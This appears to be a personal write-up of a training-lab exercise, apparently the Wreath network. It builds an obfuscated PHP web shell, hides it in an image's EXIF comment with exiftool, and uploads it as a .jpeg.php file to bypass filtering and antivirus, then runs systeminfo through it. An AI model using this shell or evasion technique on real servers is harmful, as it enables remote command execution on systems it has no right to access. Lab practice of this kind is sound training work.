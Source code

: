 
We have an upload point which we can use to upload PHP scripts.
But will assume for the time being that Windows Defender is free and comes pre-installed with 
Windows Server.


Will use the tool named https://www.gaijin.at/en/tools/php-obfuscator for AV Evasion

![[Pasted image 20240114165402.png | 500]]

```
<?php $x0=$_GET[base64_decode('d3JlYXRo')];if(isset($x0)){echo base64_decode('PHByZT4=').shell_exec($x0).base64_decode('PC9wcmU+');}die();?>
```
![[Pasted image 20240114165445.png]]

But but but................................................. will have to prevent them from being interpreted as bash variables.
```
<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>
```


Now will make a payload using Exif tool and will keep the payload in the comments
```
exiftool -Comment="<?php \$p0=\$_GET[base64_decode('d3JlYXRo')];if(isset(\$p0)){echo base64_decode('PHByZT4=').shell_exec(\$p0).base64_decode('PC9wcmU+');}die();?>" shell-sardarji.jpeg.php
```

Will update the comment
![[Pasted image 20240114170127.png]]

Now will try to upload the payload and will see if we are able to access it or not ??

```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php
```
![[Pasted image 20240114170816.png]]

Vollaaaaaaaaaaaaaaaaaaaaa We got a Shell
```
http://10.200.85.100/resources/uploads/shell-sardarji.jpeg.php?wreath=systeminfo
```
![[Pasted image 20240114171015.png]]
```
�����

Host Name:                 WREATH-PC
OS Name:                   Microsoft Windows Server 2019 Standard
OS Version:                10.0.17763 N/A Build 17763
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00429-70000-00000-AA778
Original Install Date:     08/11/2020, 14:55:50
System Boot Time:          14/01/2024, 10:36:40
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.11.amazon, 24/08/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-gb;English (United Kingdom)
Input Locale:              en-gb;English (United Kingdom)
Time Zone:                 (UTC+00:00) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,348 MB
Virtual Memory: Max Size:  2,432 MB
Virtual Memory: Available: 1,841 MB
Virtual Memory: In Use:    591 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 5 Hotfix(s) Installed.
                           [01]: KB4580422
                           [02]: KB4512577
                           [03]: KB4580325
                           [04]: KB4587735
                           [05]: KB4592440
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Ethernet
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.200.85.1
                                 IP address(es)
                                 [01]: 10.200.85.100
                                 [02]: fe80::ac20:42ad:7e30:7fcf
Hyper-V Requirements:      A hypervisor has been detected. Features required for Hyper-V will not be displayed.

```

